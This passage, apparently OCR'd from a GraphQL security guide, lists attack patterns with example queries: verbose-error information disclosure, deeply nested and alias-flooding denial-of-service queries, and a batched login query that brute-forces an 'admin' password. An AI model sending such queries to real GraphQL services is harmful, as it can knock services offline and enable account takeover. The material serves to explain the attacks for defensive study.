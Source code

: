 ### 3. Information Disclosure
```graphql
# Verbose error messages
query {
  user(id: "not-a-number") {
    username
  }
}
# Returns: "Error: Cast to Number failed for value \"not-a-number\""
```

### 4. Denial of Service - Query Depth Attack
```graphql
query DeeplyNestedQuery {
  user(id: 1) {
    posts {
      comments {
        author {
          posts {
            comments {
              author {
                posts {
                  comments {
                    author {
                      # Continue nesting...
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

### 5. Denial of Service - Alias Attack
```graphql
query {
  alias1: expensiveQuery
  alias2: expensiveQuery
  alias3: expensiveQuery
  # ... repeat 1000 times
  alias1000: expensiveQuery
}
```

### 6. Batching Attack for Brute Force
```graphql
query {
  user1: login(username: "admin", password: "password1")
  user2: login(username: "admin", password: "password2")
  user3: login(username: "admin", password: "password3")
  # ... continue with password list
}
```
